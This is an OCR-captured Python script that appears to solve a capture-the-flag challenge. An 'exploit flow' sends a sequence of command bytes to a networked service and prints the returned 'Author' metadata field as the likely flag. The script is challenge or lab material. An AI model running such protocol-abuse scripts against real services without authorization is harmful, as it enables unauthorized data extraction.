 ```
    for i, tok in enumerate(tokens):
        # Allow cases like 'tEXtAuthor' by checking substring containment
        matched_key: Optional[bytes] = None
        for k in keys:
            if tok == k or (k in tok):
                matched_key = k
                break
        if matched_key and i + 1 < len(tokens):
            # Prefer the very next printable token as the value
            key = matched_key.decode("ascii", errors="ignore")
            val = tokens[i + 1].decode("utf-8", errors="ignore")
            # Guard against obviously invalid huge values
            if len(val) > 0:
                out[key] = val
    return out


# Exploit flow ---------------------------------------------------------------

def exploit_fetch_metadata(io) -> Tuple[Optional[Dict[str, str]], bytes]:
    # 0x10: enable session; 0x22: build default entry with flag in Author; 0x32 x01: request bundle
    send_cmd(io, b"\x10")
    io.recv(timeout=1.1)  # ignore 1-byte ack if present
    send_cmd(io, b"\x22")
    io.recv(timeout=1.1)
    send_cmd(io, b"\x32\x01")

    chunk = read_chunk(io, timeout=2.0)
    if not chunk:
        return None, b""
    tag, payload = chunk
    parsed = parse_kv_payload(payload)
    return parsed, payload


def main():
    host = os.environ.get("HOST", "127.0.0.1")
    port = int(os.environ.get("PORT", "4265"))
    io = remote(host, port)
    try:
        kv, raw = exploit_fetch_metadata(io)
        if kv:
            print("Parsed fields:")
            for k in ("Author", "Comment", "Software"):
                if k in kv:
                    print(f"- {k}: {kv[k]}")
            if "Author" in kv:
                print(f"\nAuthor (likely flag): {kv['Author']}")
        else:
            print(f"No parsable KV bundle. Raw chunk ({len(raw)} bytes): {raw.hex()}")
    finally:
        try:
            send_cmd(io, b"\x11")  # close session politely
        except Exception:
            pass
        io.close()


if __name__ == "__main__":
    main()

```
